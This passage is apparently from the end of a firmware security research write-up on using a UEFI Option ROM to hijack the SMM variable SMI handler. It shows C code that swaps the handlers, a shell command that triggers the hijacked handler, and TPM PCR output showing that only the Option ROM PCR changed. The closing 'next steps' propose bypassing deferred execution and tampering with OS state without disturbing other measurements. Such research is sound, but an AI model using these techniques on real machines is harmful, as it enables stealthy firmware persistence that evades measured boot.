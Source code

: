```c
  SMI_HANDLER *ExistingHandler = (SMI_HANDLER*)Link;
  EFI_SMM_HANDLER_ENTRY_POINT2 ExistingEntry =
    ExistingHandler->Handler;

  // Uninstall the primary handler.
  gSmst->SmiHandlerUnRegister((EFI_HANDLE)(ExistingHandler));

  // "Reinstall" the primary as the secondary.
  gSmst->SmiHandlerRegister(
    ExistingEntry,
    &gEfiSmmVariableProtocolGuid,
    &Handle
  );

  // Now our handler is primary.
```

If we add console logging to `HijackedVariableHandler` we can verify it is run often and can be triggered with the following:

```sh
$ cat /sys/firmware/efi/efivars/Lang-8be4df61-93ca-11d2-aa0d-00e098032b8c
```

And it is cool to see the only change to PCR measurements (as expected) are the Option ROM-relevant PCRs:

```sh
$ sudo tpm2_pcrlist
sha1 :
  0  : 475ea346af5cfc78c73f667e6342eb4936dced00 // Platform
  1  : 4a2ee913fdf51ff91eaab4b818007e6936141436 // Platform Config
  2* : f4a4943f9a6fbe351fe0d96b0894843bcea7fa83 // (changed!) Option ROM Code
  3  : b2a83b0ebf2f8374299a5b2bdfc31ea955ad7236 // Option ROM Config+Data
  4  : 5a7c6b901aa914083fa625f2e7a37860a79bf7dd // IPL Code
  5  : 696ac3602fd7f434d698180b2a02b15b8deadf4d // IPL Config+Datsa
  6  : b2a83b0ebf2f8374299a5b2bdfc31ea955ad7236
  7  : 4037336fa7bc0eabe3778fcfff5fcd0ee6adcde3
[...]
  9  : 0b3d418464da7ce0459dc9fc6d72447354a13e1e
[...]
```

Thanks for following along. I would appreciate any feedback and opportunity to improve the article.

## Next steps

The following are high-level 'next steps' to consider.

- Investigate achieving the same results, modifying SMM using Option ROMs, without relaxing security. This means finding a way to bypass deferred execution.
- Investigate how Option ROM loading and execution is different with CSM enabled.
- Use an Option ROM to persist and run code in other ways. The goal would be to functionally tamper the OS execution state without affecting PCR measurements beyond the expected PCR 2 and PCR 3.
- Analyze and study more Option ROM code and use-cases.
- Ideas?
